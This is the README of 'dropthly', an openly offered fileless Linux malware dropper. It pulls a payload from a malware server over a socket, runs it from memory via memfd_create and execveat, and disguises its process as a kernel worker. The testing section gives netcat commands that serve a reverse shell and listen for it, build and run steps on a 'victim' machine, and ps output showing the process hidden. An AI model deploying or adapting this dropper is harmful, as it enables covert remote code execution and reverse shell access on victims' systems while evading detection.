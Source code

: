 _____________________________________________
![maxresdefault](https://github.com/user-attachments/assets/f3d868ab-0eeb-4127-9be6-bc6ff920b0df)
______________________________________________
# DROPTHLY
dropthly is a stealthy dropper which downloads and executes entire binary in memory without leaving any tracks on victims machine.

## Working
The program just use very simple and direct method to drop payload.
  1) Connect to ip 127.0.0.1 on port 4444 of malware server.<br>
  2) Creates a memory file using <code>memfd_create()</code>.<br>
  3) Reads data from the socket and writes it into the memory file.<br>
  4) Runs the memory file using <code>execveat()</code> when all the data has been transferred and also becomes stealthy.

## Testing
launch the malware-server:
```bash
malware-server$ cat ./revshell | nc -lp 4444
```
lunch revshell listener:
```bash
attacker:$ nc -lnvp 8080 //listening revshell at port 8080
```
Compile and launch dropthly on victims machine:
```bash
victim:$ cargo build --release 
victim:$ ./dropthly
```
We have currently established a TCP connection to victim machine now proceed to check the file descriptors of dropthly.
```bash
attacker:$ ps -ax | grep dropthly 
  37191 pts/5    S+     0:00 grep dropthly
```
No trace of dropthly. Now see how dropthly looks like:
```bash
attacker:$ ps -ax | grep ar.p
  36660 pts/0    S      0:00 [kworker/ar.p] 
  37039 pts/5    S+     0:00 grep ar.p
```
you can change name [kworker/ar.p] to any others from main.rs

## License
This project is licensed under [MIT](https://github.com/0x00snape/dropthly/blob/main/LICENSE)
